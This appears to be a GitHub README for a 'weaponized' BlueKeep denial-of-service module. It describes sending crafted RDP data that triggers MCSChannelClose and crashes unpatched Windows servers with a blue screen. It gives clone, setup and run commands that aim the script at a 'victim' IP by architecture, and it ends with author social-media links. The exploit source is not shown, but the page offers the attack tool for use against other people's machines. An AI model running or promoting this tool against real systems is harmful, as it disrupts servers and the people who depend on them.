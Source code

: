 # D0S-81U3K33P
<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/TheEyeOfCyber/D0S-81U3K33P</p></b>
  <p><b>cd D0S-81U3K33P</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>8sod3x910i7.py "IP" 64</p></b>
  <p><b>or</p></b>
  <p><b>python 8sod3x910i7.py "IP" 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Humayun Ali Khan #Mammona Aslam</p></b>

<p></b>
  <p><b>Youtube: https://www.youtube.com/c/theeyeofcyberbuckeyesecurityofficial</p></b>
   <p><b>linkedin: https://pk.linkedin.com/in/theeyeofcyber</p></b>
   <p><b>Fb Group: https://www.facebook.com/groups/theeyeofcyberbuckeyesecurtiy/</p></b>
   <img src="https://github.com/TheEyeOfCyber/D0S-81U3K33P/blob/master/20201021_003836_0000.png?raw=true" style="max-width:100%;">
</p></b>
